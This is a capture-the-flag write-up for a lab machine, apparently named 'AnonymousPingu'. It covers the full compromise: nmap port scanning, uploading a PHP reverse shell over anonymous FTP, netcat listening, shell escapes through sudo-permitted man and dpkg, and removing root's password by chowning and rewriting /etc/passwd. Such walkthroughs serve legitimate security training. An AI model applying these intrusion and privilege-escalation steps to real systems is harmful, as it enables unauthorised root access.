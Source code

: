 # AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Anon_1.png)

We see what appears to be files from a web page, there's a very interesting directory called "upload". We may need to upload some file to create a reverse shell.

## Examining the Web Page and Its Infrastructure
If we examine the page, we find the following:

![alt text](Imagenes/Anon_2.png)

The most important thing in the bar is the "Access backend" menu. If we click on it, it takes us to the upload folder:

## Intrusion

For the intrusion, I used this GitHub script from "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Therefore, I used the ftp tool to upload the reverse.php file, configuring our IP and our port, and using the netcat tool to make the connection.

![alt text](Imagenes/Anon_3.png)

If we listen on port 1234 with netcat and execute the .php file in the browser, it returns the shell

```ruby
nc -lvnp 1234
```

![alt text](Imagenes/Anon_4.png)

Therefore, we are authenticated as the "data" user

# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Therefore, if we execute the following command, we can do it as the pingu user

```ruby
sudo -u pingu man man
```

Inside the manual, we can execute the following:

```ruby
!/bin/bash
```

We see that we change users and access as pingu

![alt text](Imagenes/Anon_5.png)

If we execute the previous order, we see new commands that we can execute as the gladys user

```ruby
Matching Defaults entries for pingu on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 34882fa66e15:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg

```

If we go to the GTObins page, we see that we can exploit it in the following way:

```ruby
sudo -u gladys dpkg -l
!/bin/sh
```

We gain access with the "gladys" user in a similar way to the previous one.

![alt text](Imagenes/Anon_6.png)


If we execute the `sudo -l` command again

```ruby
Matching Defaults entries for gladys on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 34882fa66e15:
    (root) NOPASSWD: /usr/bin/chown
```

To do this escalation, we can do it in several ways. The simplest way is to try to edit the `/etc/passwd` file, removing the check when the root user's password is requested.

For this, we have to give permission to the gladys user and then overwrite the file

```ruby
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```

Then with the `sed` tool we remove the "x" character that is in the root line, we create a temporary file in /tmp.

```ruby
sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp
```

Finally, we overwrite the `/etc/passwd` file

```ruby 
cp /tmp/passwd.tmp /etc/passwd
```

![alt text](Imagenes/Anon_7.png)